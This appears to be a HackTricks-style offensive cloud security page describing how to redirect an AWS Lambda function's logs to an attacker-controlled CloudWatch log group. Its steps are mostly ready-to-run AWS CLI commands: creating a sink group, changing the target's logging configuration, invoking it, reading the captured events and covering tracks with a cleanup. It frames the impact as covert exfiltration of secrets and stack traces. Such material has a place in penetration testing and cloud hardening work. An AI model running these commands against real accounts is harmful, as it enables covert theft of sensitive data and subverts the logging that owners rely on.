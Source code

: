 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

Abuse `lambda:UpdateFunctionConfiguration` advanced logging controls to redirect a function’s logs to an attacker-chosen CloudWatch Logs log group. This works without changing code or the execution role (most Lambda roles already include `logs:CreateLogGroup/CreateLogStream/PutLogEvents` via `AWSLambdaBasicExecutionRole`). If the function prints secrets/request bodies or crashes with stack traces, you can collect them from the new log group.

## Required permissions
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (or rely on existing triggers)
- logs:CreateLogGroup (often not required if the function role has it)
- logs:FilterLogEvents (to read events)

## Steps
1) Create a sink log group

```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```

2) Redirect the target function logs
```
aws lambda update-function-configuration \
  --function-name <TARGET_FN> \
  --logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
  --region us-east-1
```
Wait until `LastUpdateStatus` becomes `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
  --query LastUpdateStatus --output text
```

3) Invoke and read from the sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```

## Impact
- Covertly redirect all application/system logs to a log group you control, bypassing expectations that logs only land in `/aws/lambda/<fn>`.
- Exfiltrate sensitive data printed by the function or surfaced in errors.

## Cleanup
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
  --logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
  --region us-east-1 || true
```

## Notes
- Logging controls are part of Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- By default, Lambda sends logs to `/aws/lambda/<function>`, but you can point to any log group name; Lambda (or the execution role) will create it if allowed.

